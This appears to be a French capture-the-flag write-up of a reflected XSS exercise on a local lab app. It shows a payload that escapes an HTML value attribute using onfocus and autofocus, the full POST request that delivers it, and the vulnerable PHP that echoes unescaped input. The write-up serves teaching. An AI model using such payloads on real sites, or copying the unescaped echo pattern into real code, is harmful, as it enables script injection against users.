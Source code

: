 # xss2

## Exploitation

Le second challenge propose une fonctionnalité de recherche :&#x20;

![](<../../../.gitbook/assets/image (1) (1) (2).png>)

Lorsque je renseigne un mot clé, il n'est pas réfléchi dans le message d'erreur mais est présent en tant que valeur du champ de recherche :&#x20;

![](<../../../.gitbook/assets/image (12) (1) (3).png>)

`value` est un attribut HTML safe, l'injection ne peut se faire directement. Je vais donc préparer ma payload afin de m'échapper de cet attribut puis forger mon attaque. Il y a plusieurs solutions ici mais je choisis de passer par un autofocus `whatever" onfocus="alert(1)" autofocus x="` :&#x20;

```http
POST /xss2/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss2/
Upgrade-Insecure-Requests: 1

search=whatever%22+onfocus%3D%22alert%281%29%22+autofocus+plop%3D%22&submit=Envoyer
```

![](<../../../.gitbook/assets/image (4) (1) (4).png>)

## Analyse du code source

La valeur du paramètre `$keyword`, récupérée depuis la variable `$_POST['search']` est affichée directement grâce à la directive `echo` en tant que valeur de l'attribut HTML `value`. Aucune protection étant en place, l'injection est donc évidente :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }
?>

<input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo $keyword; }?>"
```

